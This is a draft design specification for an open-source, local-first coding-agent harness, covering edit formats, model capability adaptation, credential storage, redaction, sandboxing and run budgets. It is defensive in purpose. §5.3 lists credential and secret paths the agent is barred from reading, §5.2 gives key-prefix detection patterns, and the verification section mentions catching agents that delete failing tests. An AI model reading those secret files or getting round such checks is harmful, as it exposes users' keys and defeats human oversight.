

# ClutchCode — Project Specification

**A model-agnostic, local-first coding-agent runtime and harness.**

**Version:** 1.0 (Phase 0 — Research & Specification)
**Date:** 2026-08-12
**Status:** Draft for review. Authoritative deliverable of Phase 0. No production code exists or ships with this document.
**Audience:** (1) a future implementation agent that must build Phase 1 from this document with no further questions; (2) a skeptical senior engineer deciding whether this project should exist.

> This document optimizes for the skeptic. Where the honest conclusion is "don't build it," it says so (see §9 Repository Intelligence — no vector DB; §7 Multi-Agent — single agent by default; §23 — why this might fail). Every reference-project claim is traceable to a file listed in `research/00_METHOD.md §6` or marked `UNVERIFIED:`.

---

## Table of Contents

1. Product Definition — and why it deserves to exist
2. Core Architectural Principle — the model is replaceable
3. Target Users & Hardware Profiles (A–D)
4. **Model Capability Tiers & the Adaptation Layer** (the heart)
5. Credentials & Trust Boundaries
6. Agent Runtime
7. Multi-Agent Architecture — and the argument against it
8. Workflow Engine
9. Repository Intelligence — the case against a vector DB
10. Memory
11. Tool System
12. Sandbox & Security
13. Git Architecture
14. Verification
15. Observability
16. Evaluation — the North Star
17. Local-First Architecture
18. CLI/TUI & VS Code — Interface Strategy & UX
19. Technology Selection
20. Repository Structure
21. Phase 1 Scope & Phasing Table
22. Non-Goals
23. Competitive Analysis — differentiators & failure modes
24. Final Architecture
25. Implementation Roadmap
26. Architecture Decision Records (ADRs)
27. ASSUMPTIONS register
28. OPEN QUESTIONS register
29. SELF-REVIEW

**Confidence legend:** each major recommendation is tagged **[C:High]**, **[C:Med]**, or **[C:Low]**; anything below High states why.

---

## 1. Product Definition — and why it deserves to exist

**One paragraph a stranger can repeat:**
ClutchCode is an open-source, local-first *coding-agent runtime* — the harness layer that sits between a language model and a codebase and turns *any* model, including a 14B model running on your own gaming-laptop GPU, into a competent engineer that inspects, edits, runs, tests, repairs, and verifies code on your machine. It is model-agnostic (frontier API or fully offline local), it never phones home, you own your keys and your data, and it proves work is done by *running the build and tests* rather than trusting the model's claim. You drive it from a terminal or from a VS Code extension; both speak to the same runtime.

**What it is NOT:** "another AI coding CLI." The CLI is a thin client. The product is the **runtime + capability-adaptation layer + verification harness** underneath it. The model is a replaceable component (§2).

### 1.1 Why would anyone use this instead of just running Claude Code or Codex?

Bluntly: for a user pointed at a frontier model with a budget, **Claude Code and Codex are and will remain better** — they are backed by the labs that make the models, ship faster, and tune the prompt to one model family. If ClutchCode's only honest answers were "it's free" and "it's open," that would not justify the project. So here are the three capabilities that *do* justify it, each of which the vendor CLIs structurally will not prioritize:

1. **True offline / local-model operation as a first-class path, not an afterthought.** Claude Code is proprietary and Anthropic-model-only (`research/repos/claude-code.md`); Codex is OpenAI-centric. Neither's business incentive is to make a *14B local model on your GPU* work well. ClutchCode's capability-adaptation layer (§4) exists specifically to close the gap between a weak local model and a competent agent — that is the product. A homelab user (Profile D) or a privacy-bound developer can run it **fully disconnected** (§17), which the vendor CLIs cannot do.
2. **Provider neutrality with per-model capability adaptation.** One harness, any provider, and the *edit format / tool protocol / context budget adapt to what the model can actually do* (§4). Switching models is a config change, not a new tool. Vendor CLIs are structurally single-vendor.
3. **Deterministic verification you can trust and audit, with no telemetry.** "Done" means the build/tests/lint passed and a human approved the diff (§14), and the full decision trail is replayable locally (`agent inspect`) with zero data leaving the machine (§15, §19). This is a stronger, auditable completion contract than "the model said it finished."

If a reader rejects all three as insufficient for *their* use case (frontier model, cloud-fine, budget-fine), they are right to use the vendor CLI. We do not claim to beat a lab's own harness on the lab's own model. **[C:High]**

### 1.2 Why would anyone use this instead of Aider or OpenHands? (the real competitors)

Aider and OpenHands — both open source, both excellent — are the honest competition, not the vendor CLIs.

- **vs Aider (Apache-2.0, Python, terminal):** Aider is superb at edit formats and repo mapping (we study it heavily, §4/§9) but is architecturally a *pair-programming chat with edit application and optional auto-test*, not a **verification-first, sandboxed, resumable agent runtime**. ClutchCode differentiators: (a) a **first-class verification pipeline with cheating-detection** (§14) — Aider runs lint/test but does not systematically detect an agent deleting a failing test or weakening an assertion; (b) **OS-level sandboxing tiers** (§12) — Aider executes shell with confirm-only, no confinement; (c) **git worktree isolation per run** so your working tree can never be corrupted (§13); (d) a **VS Code extension** sharing the same runtime (Aider's editor story is thin). Where Aider stays better: raw edit-application maturity and its published edit-format leaderboard — we adopt its *lessons*, not its lead.
- **vs OpenHands (MIT, Python, Docker-first):** OpenHands has the strongest research pedigree (CodeAct, Action/Observation ACI, SWE-bench positioning; `research/repos/openhands.md`) but its **default isolation is a Docker container**, which is a heavy default on a laptop and a non-starter for many Profile-B/C users who "simply turn it off." ClutchCode differentiators: (a) **laptop-appropriate tiered sandbox with Docker optional, not default** (§12); (b) **local-model-first capability adaptation** — OpenHands runs local models but does not systematically down-adapt edit format / context budget for an 8k-context 14B model (§4); (c) **CLI/TUI + VS Code as the primary surface** vs OpenHands' web-app orientation. Where OpenHands stays better: its Docker runtime is genuinely stronger isolation than our default tier, and its benchmark infrastructure is more mature.

**The defensible core in one line:** *the layer that makes a weak/local model behave like a competent, verified, sandboxed engineer on your own machine, driven from terminal or editor.* Everything else in this spec serves that line. Claimed differentiators that could not be substantiated are killed in §23.4.

---

## 2. Core Architectural Principle — the model is a replaceable component

```
Model  →  Agent Runtime  →  Tools  →  Execution Env  →  Verification  →  Git / Delivery
         (capability-aware)  (typed)   (sandboxed)      (deterministic)   (worktree)
```

**Design invariant:** every layer *below* the model must be testable with the model stubbed out.

How it is enforced (this is a testability contract, not a slogan):

1. **Deterministic tool layer.** Tools (§11) are pure-ish functions of `(args, workspace state) → typed result`. No tool calls the model. Each tool has unit tests that never touch a provider. **[C:High]**
2. **Recorded-transcript replay.** Every run persists a full event log (§15). The runtime can be re-driven from a recorded transcript against a **fake provider** that replays the recorded model turns, so runtime logic (state machine, budgets, loop detection, verification, git) is tested with zero tokens and full determinism (§16.3). **[C:High]**
3. **Fake provider.** The provider interface (§4.7) has a `FakeProvider` implementation used in CI: scripted responses, injectable malformed outputs (to test edit-format fallback and repair), injectable latency/errors (to test budgets and error taxonomy). **[C:High]**

Consequence: a contributor can change the workflow engine or sandbox and prove correctness **without an API key and without a GPU**. This is what "model-agnostic" means operationally.

---

## 3. Target Users & Hardware Profiles

Primary user: **an individual developer on their own machine.** Not an enterprise, not a platform team. Every tradeoff below names the profile it serves.

| Profile | Machine | Model reality | Design consequence |
|---|---|---|---|
| **A** | Apple Silicon, 16–36 GB unified memory | Local 7B–32B quantized via Ollama/MLX; frontier API for hard tasks | Metal/MLX serving; unified-memory sizing; "local for easy, escalate to API for hard" routing (§4.6) |
| **B** | **Linux/Windows + 8–16 GB VRAM NVIDIA — the gaming laptop** | Local 7B–14B quantized; llama.cpp/vLLM/Ollama; CUDA | **First-class.** 12 GB VRAM at Q4_K_M with 8k–16k context is the *canonical constraint we design against* (see §4.10). Every context/edit-format decision must survive here. |
| **C** | Any laptop, no usable GPU | API-only: Anthropic/OpenAI/Google/xAI/OpenRouter/DeepSeek/Groq | **Most common.** Must work with an API key and nothing else. No GPU code paths on the critical path. |
| **D** | Homelab/workstation, 48 GB+ VRAM | Local 70B-class or MoE; full offline | **Ideological core.** "Disconnect the network, point at Ollama, finish a task" is a *tested requirement* (§17). |

**Explicit gaming-laptop (Profile B) commitment.** The single hardest realistic target is *a 14B model, Q4_K_M, on 12 GB VRAM, at 8k effective context.* The spec's §4 (edit-format fallback, tool-call emulation, aggressive context budgeting, capability probe) exists primarily to make that machine complete real tasks. If a design choice works only above that bar, it is wrong. **[C:High]** The product must degrade in capability across A→D but **never break**; Profile C is the common case and Profile D is the reason the project exists.

**User journey supported end-to-end:**
`install → configure credentials OR pull a local model → point at a repo → give a task → agent inspects, edits, executes, tests, repairs, verifies → human reviews diff → approve → commit.`

---

## 4. Model Capability Tiers & the Adaptation Layer *(the heart)*

"Model-agnostic" is a lie unless the harness adapts to what each model can actually do. A GPT-class frontier model with native parallel tool-calling and a Qwen-14B-Q4 on a gaming laptop cannot be driven by the same code path. This section defines the **capability matrix**, the **adaptation layer** that reads it, and the **graceful-degradation** rules.

### 4.1 The capability matrix (per provider/model)

Each dimension is probed (§4.9) or configured, and stored in a persisted **capability profile**.

| Dimension | Values | Why it changes harness behavior |
|---|---|---|
| Native tool/function calling | native / JSON-mode-only / none | Selects tool transport (§4.8): native schemas vs constrained JSON vs text-protocol emulation |
| Parallel tool calls | yes / no | If no, serialize tool requests; never emit multi-call plans |
| Structured-output reliability | high / medium / low | Gates JSON tools; low → text protocol + strict parser |
| Constrained decoding available | GBNF (llama.cpp) / outlines / JSON-schema (vLLM) / none | If available, **enforce** tool/edit grammar at decode time — the biggest reliability win for local models |
| Advertised vs **effective** context | e.g. 32k advertised / ~8–12k effective | Budget against *effective*; degradation starts well before the limit |
| Prompt caching | anthropic / openai / none | Order the prompt cache-friendly; measure cache hit for cost (§15) |
| Reasoning/thinking mode | none / hidden / visible-tokens | Affects loop parsing (don't parse thinking as tool calls) and budget |
| Long-prompt instruction fidelity | high / medium / low | Low → shorter system prompt, fewer simultaneous rules, more reminders |
| Cost / latency / tok-s | $/Mtok in·out, ms, tok/s | Feeds routing (§4.6) and budgets (§6) |
| **Diff-application accuracy** | measured % | **The single strongest predictor of coding-agent success** — selects edit format (§4.4) and fallbacks |

**Provider snapshot (illustrative; values are configured/probed, not hard-coded, and marked `UNVERIFIED:` as point-in-time).** This table is a *shape*, populated at runtime by the probe:

| Model (example) | Native tools | Parallel | Constrained decode | Effective ctx | Default edit format |
|---|---|---|---|---|---|
| Frontier API (Claude/GPT/Gemini class) | native | yes | provider JSON schema | large | search/replace or native-tool edit |
| Mid API (DeepSeek/Groq-hosted) | native/JSON | often | JSON schema | medium | search/replace |
| Local 32B (Profile A/D) | JSON-mode | sometimes | GBNF via llama.cpp | 8–32k | search/replace |
| **Local 14B Q4 (Profile B)** | **often none/weak** | **no** | **GBNF (enforce)** | **~8–12k** | **search/replace, whole-file fallback** |
| Local 7B (Profile B/C floor) | none | no | GBNF (enforce) | ~4–8k | whole-file for small files; line-anchored |

### 4.2 The adaptation layer (architecture)

```
                 ┌────────────────────────────┐
   task + repo → │  Runtime (state machine)   │
                 └─────────────┬──────────────┘
                               │ needs: edit N files, run cmd, ...
                 ┌─────────────▼──────────────┐
                 │   ADAPTATION LAYER          │  reads capability profile:
                 │  • edit-format selector     │   - picks edit format (4.4)
                 │  • tool transport selector  │   - picks tool transport (4.8)
                 │  • context budgeter (4.5)   │   - sets token windows
                 │  • prompt assembler         │   - sizes system prompt to fidelity
                 └─────────────┬──────────────┘
                               │ format-specific request
                 ┌─────────────▼──────────────┐
                 │  Provider adapter (4.7)     │  native tools / JSON / text
                 └─────────────┬──────────────┘
                               │ raw model output
                 ┌─────────────▼──────────────┐
                 │  Parser + validator + repair│  (4.4, 4.8) — strict, with fallback
                 └────────────────────────────┘
```

The adaptation layer is the product's crown jewel. It is **pure and model-stubbable** (§2): given a capability profile and an intent, it deterministically chooses transport/format/budget.

### 4.3 Edit format — comparison and failure modes

Edit-application accuracy dominates coding-agent success. Prior art read directly: **Aider's SEARCH/REPLACE** (`aider/coders/editblock_prompts.py`, application cascade `editblock_coder.py:127-240`), **Codex's `apply_patch`** (`codex-rs/apply-patch/`), **Cline's XML `<replace_in_file>`** (`research/repos/cline.md`).

| Edit format | How it works | Failure modes | Best for | Token cost |
|---|---|---|---|---|
| **Whole-file rewrite** | Model re-emits entire file | Truncation at token limit; silent drift in untouched code; expensive | Tiny files; weakest models; new files | High |
| **Unified diff** | Standard `@@` hunks | Hallucinated context lines; line-number drift; whitespace mismatch; models miscount hunks | Models trained on diffs; small changes | Low |
| **Search/Replace blocks** | Exact `<<<<<<< SEARCH / ======= / >>>>>>> REPLACE` | SEARCH must match char-for-char; whitespace drift; ambiguous (multiple matches); model omits lines | **Most models, most tasks** — the pragmatic default | Low–med |
| **Line-anchored patch** | Replace by line range/anchor | Anchor ambiguity; line drift after prior edit | Structured tools; when line numbers are stable | Low |
| **Structured JSON edits** | `{path, find, replace}` array | JSON escaping of code (quotes/newlines) breaks weak models; verbose | Models with strong JSON/constrained decode | Med–high |

**Key learned lesson (verified):** Aider's fuzzy edit-distance matching is **deliberately disabled** by an early `return` at `editblock_coder.py:183`. Fuzzy "closest match" application silently applies edits to the *wrong* location. **Do-not-copy:** do not add fuzzy/edit-distance edit application as a silent fallback. Our fallbacks are *exact-with-tolerances* (whitespace, blank-line) then *fail loudly and re-prompt*, never "apply to the nearest thing." **[C:High]**

### 4.4 Our edit-format selection & fallback (the algorithm)

We adopt **Search/Replace as the default** (interoperable convention across Aider/Cline; the marker syntax itself is not protectable, the matching code is clean-room per LICENSE §3). Selection and fallback are driven by the capability profile:

```
select_edit_format(profile, file):
    if profile.constrained_decode and profile.diff_acc >= 0.85: return SEARCH_REPLACE (grammar-enforced)
    if profile.diff_acc >= 0.75:                                return SEARCH_REPLACE
    if file.is_new or file.loc <= WHOLE_FILE_LOC_CAP(profile):  return WHOLE_FILE
    if profile.diff_acc >= 0.5:                                 return SEARCH_REPLACE (with tighter reminders)
    else:                                                       return WHOLE_FILE (chunked if needed)

apply(edit):
    cascade (from Aider, reimplemented clean-room, §LICENSE):
      1. exact match (char-for-char)                    # perfect_replace
      2. tolerate uniform leading-whitespace drift       # match_but_for_leading_whitespace
      3. drop a spurious leading blank line, retry
      4. handle explicit "..." elision if present
      # NO fuzzy edit-distance step (learned lesson)
    on miss:
      → structured failure: which SEARCH block failed, with the nearest *non-applied* context shown
      → REPAIR PROMPT: re-send the specific block with the actual current file content window
      → after MAX_EDIT_RETRIES (default 2): downgrade edit format one tier (SEARCH_REPLACE → WHOLE_FILE)
      → after downgrade also fails: escalate to human (§14) — never guess a location
```

`WHOLE_FILE_LOC_CAP(profile)` scales with effective context (e.g. ~400 LOC at 8k, larger at 32k) so a whole-file rewrite can never blow the window. **[C:High]** The **repeated-failure fallback** (downgrade format, then escalate) is the mechanism that keeps a weak model usable instead of looping.

### 4.5 Context budgeting for 8k–32k local models

**Hard rule: the agent never gets the whole repo dumped into context.** Ever. Not even on a frontier model (it wastes cache and money; on local it is fatal). **[C:High]**

Budget model (fractions of *effective* context, configurable, defaults tuned for Profile B 8–12k):

| Segment | Share (8k profile) | Contents |
|---|---|---|
| System prompt + tool schemas | ~15% | Sized down for low instruction-fidelity models (§4.1) |
| Repo map / retrieval | ~20% | Ranked symbols/files (§9), NOT file bodies unless opened |
| Open file windows | ~30% | Only the *windows* being edited, not whole files |
| Conversation/tool history | ~25% | Compacted with checkpoints (§10) |
| Reserved for model output | ~10% | Room for the edit + reasoning |

Techniques (all mandatory for local tiers): **aggressive retrieval** (open only what's needed), **file-window discipline** (read/edit windows, not whole files, above a LOC threshold), **summarization checkpoints** (compact tool history into a running summary at thresholds, §10), and **truncation of tool output at the source** (§11.3 — a 50k-line test log is summarized before it ever reaches context). Retrieval budget scales *down* automatically as effective context shrinks.

### 4.6 Model routing (local-for-easy, escalate-for-hard) — optional, off by default

Profiles A/D can run a cheap local model for inspection/simple edits and **escalate** hard steps to a stronger local or API model. This is **opt-in** (`[routing]` config), never automatic without consent (privacy + cost). Escalation triggers: repeated edit failure, verification failure loop, explicit "hard" task tag. Default: single configured model. **[C:Med]** (routing adds complexity; Phase 1 ships single-model, routing is Phase 2+.)

### 4.7 Provider abstraction

A single `Provider` interface; adapters below it. **OpenAI-compatible-first** because it covers the long tail (OpenRouter, Groq, DeepSeek, Together, vLLM `--api`, llama.cpp `llama-server`, LM Studio, and Ollama's `/v1` endpoint) with one adapter.

```
interface Provider {
  id, capabilityDefaults
  chat(request: NormalizedRequest): AsyncStream<Delta>   // text + tool-call deltas
  supportsNativeTools, supportsParallelTools, supportsConstrainedDecode
}
Adapters (Phase 1): OpenAICompatible (covers most), Anthropic (native), Ollama (native+model mgmt).
Adapters (Phase 2): GeminiNative, plus constrained-decode hooks (GBNF/outlines/JSON-schema).
FakeProvider (CI): scripted, fault-injecting (§2).
```

Provider selection, base_url, and keys come from config (§18) + credential store (§5). **[C:High]**

### 4.8 Tool-call emulation for models without native tool calling

Many local models (Profile B/C floor) have no reliable native tool calling. We define a **strict text protocol** with a strict parser and a repair loop.

```
Protocol (emulation mode): the model emits exactly one action block:

  <tool name="edit_file">
  <arg name="path">src/foo.ts</arg>
  <arg name="body">
  <<<<<<< SEARCH
  ...
  =======
  ...
  >>>>>>> REPLACE
  </arg>
  </tool>

Parser rules:
  - Exactly one <tool> block per turn (enforced; multi-block → repair).
  - Unknown tool / missing required arg → structured error → REPAIR PROMPT with the schema.
  - If constrained decoding is available (GBNF), the grammar ENFORCES this shape at decode time
    (near-eliminates parse failures on local models — the single biggest local-model reliability lever).
  - Retry budget: MAX_TOOL_PARSE_RETRIES (default 2) → then simplify (fewer tools exposed) → then escalate.
```

This is informed by Cline's XML tool protocol (`research/repos/cline.md`) — reimplemented clean-room. The **constrained-decoding enforcement** is our addition and the reason a 7B/14B can drive tools reliably. **[C:High]**

### 4.9 The capability probe (`agent models probe`)

A short, local, ~2-minute benchmark run **once per new model** to populate its capability profile, persisted in config so it is not re-run.

Probe checks (deterministic scoring, no human):
1. **Valid search/replace emission** — give a tiny file + change, score exact-applicable blocks over N trials → `diff_acc`.
2. **Stop-condition obedience** — does it stop when told, or ramble/loop? → `instruction_fidelity`.
3. **Tool-protocol validity** — native tool call vs JSON vs needs-emulation → `tool_transport`.
4. **JSON structured-output reliability** — emit a schema-constrained object → `structured_output`.
5. **Context probe** — needle-in-haystack at increasing lengths → `effective_context` estimate.
6. **Loop check** — repeated identical action detection sanity.

Output: a `CapabilityProfile` written to `~/.config/clutchcode/models/<id>.toml`. Re-runnable with `--force`. **[C:High]** This is how the harness "learns" a model instead of assuming.

### 4.10 Installing & serving open models (Profiles A, B, D)

Concrete guidance the tool encodes in `agent doctor` and docs.

| Server | Platforms | Strength | ClutchCode adapter | Notes |
|---|---|---|---|---|
| **Ollama** | mac/Linux/Win | Easiest pull/run; model mgmt | native + `/v1` | Default recommendation for Profiles A/B; `agent models pull` wraps it |
| **llama.cpp / llama-server** | all | GBNF constrained decode; fine control | OpenAI-compatible | Best for enforcing tool/edit grammar on weak models |
| **vLLM** | Linux + CUDA | Throughput; JSON-schema guided decode | OpenAI-compatible | Profile D / power users |
| **LM Studio** | mac/Win/Linux | GUI; OpenAI endpoint | OpenAI-compatible | Friendly for Profile B beginners |
| **MLX / mlx-lm** | Apple Silicon | Fastest on Metal | OpenAI-compatible/native | Profile A |
| Any OpenAI-compatible | all | — | OpenAI-compatible | Universal escape hatch |

**Quantization guidance (encoded in `agent doctor`):**

| Quant | Quality | VRAM (14B approx) | When |
|---|---|---|---|
| Q4_K_M | Good, standard | ~9–10 GB | **Default for 12 GB VRAM (Profile B)** — leaves room for KV cache |
| Q5_K_M | Better | ~11–12 GB | 16 GB VRAM |
| Q6_K | Near-FP16 | ~13–14 GB | 16–24 GB |
| FP16 | Reference | ~28 GB | Profile D only |

**VRAM estimation (encoded):** `weights(quant) + KV_cache(context, layers, heads)`. `agent doctor` estimates: for a 14B Q4_K_M at 8k context, ~10 GB weights + ~1–2 GB KV ≈ fits 12 GB with headroom; at 16k KV grows and may spill — doctor warns and suggests lowering context or quant. **Context-length config** and **KV-cache footprint** are surfaced explicitly so a Profile-B user isn't silently OOM'd.

**Recommended default model per profile (illustrative, `UNVERIFIED:` point-in-time — doctor picks from a maintained list):**

| Profile | Default local model class | Context | Edit format |
|---|---|---|---|
| A (24–36 GB unified) | 14B–32B coder, Q4/Q5 | 16–32k | search/replace |
| **B (12 GB VRAM)** | **14B coder, Q4_K_M** | **8–16k** | **search/replace + whole-file fallback, GBNF-enforced** |
| C (no GPU) | — (API only) | provider | native/search-replace |
| D (48 GB+) | 32B–70B / MoE coder | 32k+ | search/replace |

**`agent doctor` goal: a working local setup in under five minutes.** It: detects OS/GPU/VRAM; checks for Ollama/llama.cpp/LM Studio; recommends a model+quant for the detected VRAM; pulls it (`agent models pull`); runs the capability probe (§4.9); writes config; and prints "you can now run `agent run` fully offline." **[C:High]**

---

## 5. Credentials & Trust Boundaries

Users bring their own keys. **No project backend exists to send them to** — this is a stated, testable property (§17, §21).

### 5.1 Credential storage (precedence)

1. **OS keychain first** — macOS Keychain, Linux libsecret (Secret Service), Windows Credential Manager. **[C:High]**
2. **Encrypted file store fallback** — `~/.config/clutchcode/credentials.age` (age/libsodium-encrypted) when no keychain is available (headless Linux, some Profile-D servers). Key derived from a machine-bound secret + optional passphrase.
3. **Environment variables** — escape hatch (`ANTHROPIC_API_KEY`, `OPENAI_API_KEY`, `OPENAI_BASE_URL`, …), for CI/scripting.

We ship `.env.example` with placeholder names only; **a real key is never written to it** (a unit test asserts the file contains no value matching a key pattern).

### 5.2 Secret redaction as a pipeline stage

Redaction is a **named stage**, not scattered `if` checks. Every string crossing a boundary passes through `Redactor.scrub()`:

```
Boundaries that MUST redact (each has a test):
  → model context assembly (prompt)        # keys never enter the model prompt
  → tool output ingestion (before context) # a leaked key in `env` output is scrubbed
  → transcript/event writes (§15)          # keys never hit disk logs
  → crash reports / error surfaces
Redactor:
  - known credential values from the store (exact match, highest precision)
  - high-entropy + provider-prefix patterns (sk-, AKIA, ghp_, xai-, AIza, etc.)
  - replaces with «REDACTED:provider» preserving shape for debuggability
Tested by: a "canary key" injected into env/tool output; assert it appears in NO
  context, transcript, or log artifact across a full recorded run. (§16.3 replay.)
```

**[C:High]** The canary test is the enforcement mechanism, not the code review.

### 5.3 Filesystem denylist (agent cannot read secrets by default)

By default the agent is **prevented from reading**: `.env*` (except `.env.example`), `~/.aws`, `~/.ssh`, `~/.config/gcloud`, `~/.kube`, `~/.docker/config.json`, the OS keychain, our own `credentials.age`, shell history (`.bash_history`, `.zsh_history`, `.python_history`), `.git-credentials`, `.netrc`, browser profiles.

- Enforced at the **tool layer** (read/glob/grep all consult the denylist) *and* at the **sandbox layer** (§12, filesystem confinement) — defense in depth. A denylist check in the tool is bypassable by a shell command; the sandbox mount/Landlock rule is not.
- **Override path:** explicit, per-path, logged: `agent config allow-read <path>` or an interactive one-time approval that is recorded in the run's event log. Never a blanket "allow all." **[C:High]**

### 5.4 Trust-boundary diagram (names every party that sees code or keys)

```
┌───────────────────────────────────────────────────────────────────────┐
│  USER'S MACHINE (the only place keys and code live at rest)            │
│                                                                        │
│  ┌───────────┐   keys    ┌──────────────────┐                          │
│  │ OS keychain│◄────────►│  ClutchCode       │   code (files, diffs)    │
│  │/age store  │          │  harness process  │◄────────────────────────┼─┐
│  └───────────┘           │  (redaction here) │                          │ │
│                          └───────┬───────────┘                          │ │
│                                  │ spawns                               │ │
│                          ┌───────▼───────────┐   executes LLM cmds      │ │
│                          │  Sandbox           │  (confined fs/net)       │ │
│                          │ (bwrap/seatbelt/…) │                          │ │
│                          └───────┬───────────┘                          │ │
│                                  │ prompt (REDACTED, no keys)           │ │
│                                  ▼                                      │ │
│                       ── network egress (default-deny) ──               │ │
└───────────────────────────────────┼───────────────────────────────────┘ │
                                     │ (only if provider is remote)         │
                          ┌──────────▼───────────┐                          │
                          │  MODEL PROVIDER       │  sees: the prompt =      │
                          │ (Anthropic/OpenAI/…)  │  code snippets + task    │
                          │  OR: localhost server │  (NEVER sees API keys of │
                          │  (Ollama/llama.cpp) → │   *other* providers;     │
                          │  sees data, no egress │   sees its OWN auth key) │
                          └──────────────────────┘                          │
   Local model path: data never leaves the machine. ◄───────────────────────┘
   No ClutchCode server exists. No telemetry endpoint exists. (§19, §21)
```

**Parties, exhaustively:** (1) the user's OS (keychain, filesystem); (2) the ClutchCode harness process; (3) the sandbox (a child of the harness); (4) the chosen model provider — **and nothing else.** With a local model, party (4) is `localhost` and data never leaves.

### 5.5 What the provider necessarily sees (user-facing honesty obligation)

`agent doctor` and docs disclose, per selected provider: it receives **your prompt** (task text + the code snippets/file windows the agent chose to include + tool results the agent fed back). It does **not** receive your API keys for other providers, your denylisted files, or files the agent never opened. Retention/training posture is disclosed per provider (see `LICENSE_AND_REUSE_ANALYSIS.md §5`), with the honest note that free-tier Gemini may train on submitted data and **local models see nothing off-machine**. `UNVERIFIED:` exact current provider policies must be re-checked at ship time (OPEN QUESTION, owner: maintainers). **[C:High]** on the obligation; **[C:Med]** on specific policy wording.

---

## 6. Agent Runtime

### 6.1 The loop

```
Task → Understand → Plan(optional) → Inspect → Act(tools) → Edit → Test →
Analyze-failure → Repair → Verify → Summarize
```

Compared against reference loops (details in `research/cross-cutting/agent-loop-comparison.md`):

| Project | Loop shape | Planning | Resumable state | Notable |
|---|---|---|---|---|
| Aider | chat → edit → (optional) lint/test → reflect (bounded `num_reflections`) | architect/editor 2-model split optional | chat history file | tight, edit-centric |
| OpenHands | event-stream; AgentController consumes events, emits Actions; State object | agent-dependent | **explicit State** (strong) | Action/Observation ACI |
| Cline | recursive request loop; parse assistant msg → tool → approval → continue | Plan/Act modes | task history + checkpoints | HITL approval per tool |
| Codex | turn/session loop in Rust core; apply_patch + sandboxed exec | — | session | tiered sandbox |
| ClutchCode | **explicit state machine + persisted RunState (below)** | optional, model-call, cheap-task-aware | **RunState (first-class)** | verification-gated completion |

### 6.2 State machine & the persisted `RunState` (what makes `resume` possible)

```
States: CREATED → UNDERSTANDING → PLANNING → INSPECTING → ACTING → EDITING
        → VERIFYING → (REPAIRING → EDITING)* → AWAITING_APPROVAL → COMMITTING → DONE
        with edges to: PAUSED (steering), ESCALATED (human), FAILED, CANCELLED.

RunState (persisted after every transition; JSON in SQLite, §15):
  run_id, task, workflow_id, provider, model, capability_profile_id,
  state, step_index, budgets{steps,wallclock,tokens,cost} + consumed,
  worktree_path, base_commit, plan[], open_windows[], edit_history[],
  tool_call_log[], verification_results[], summary_checkpoints[],
  loop_detector_state, last_error{class,detail}, escalation_reason?
```

`resume` reloads `RunState`, re-attaches the worktree (§13), and continues from the last committed state. Because transitions persist, a crash or `Ctrl-C` loses at most the in-flight step. **[C:High]**

### 6.3 Budgets — and what happens at each limit

| Budget | Default | On limit |
|---|---|---|
| **Step budget** | 50 tool steps | Pause → summarize progress → ask human to extend or stop |
| **Wall-clock** | 20 min | Same pause/escalate |
| **Token budget** | per-run cap (config) | Compact context (§10); if still over, escalate |
| **Cost ceiling** | e.g. $2.00 (API); $0 for local | **Hard stop + require explicit approval to continue** — protects Profile C from a runaway bill |

All four are enforced in one `BudgetGuard` checked at every step. Local models set cost=0 but keep step/wall-clock/token limits (a looping local model wastes time, not money). **[C:High]**

### 6.4 Loop & thrash detection

| Pathology | Detection | Recovery |
|---|---|---|
| Repeated identical tool call | hash of `(tool,args)` seen N times | Inject "you already did this; result was X"; if persists → escalate |
| Oscillating edits (A→B→A) | edit-target + content cycle detection | Freeze that file; require a different approach; escalate on repeat |
| No-progress (no file/test-state change over K steps) | diff-stat + verification-state unchanged | Force a plan re-eval; then escalate |
| "Almost done" stall (claims done, verify fails repeatedly) | verify-fail count ≥ cap | Escalate with the failing check (anti-cheat, §14) |

Detectors are deterministic and model-stubbable (tested via §16.3 replay with adversarial transcripts). **[C:High]**

### 6.5 Interruption & steering

The user can inject guidance **mid-run without killing it**: a steering message is queued; at the next step boundary the runtime folds it into context and continues (state → PAUSED → ACTING). `Ctrl-C` once = graceful pause (persist RunState, release nothing destructive); twice = cancel (leave worktree intact for inspection). **[C:High]**

### 6.6 Streaming, partial results, cancellation

Model output streams to the UI (token deltas). Tool calls show live (command, then output, truncated §11.3). Cancellation is cooperative: a cancel flag is checked at every await point; an in-flight shell command is sent SIGTERM→SIGKILL with a grace period; the worktree is never left in a half-applied edit (edits apply atomically per file, §13). **[C:High]**

### 6.7 Planning: separate call vs implicit

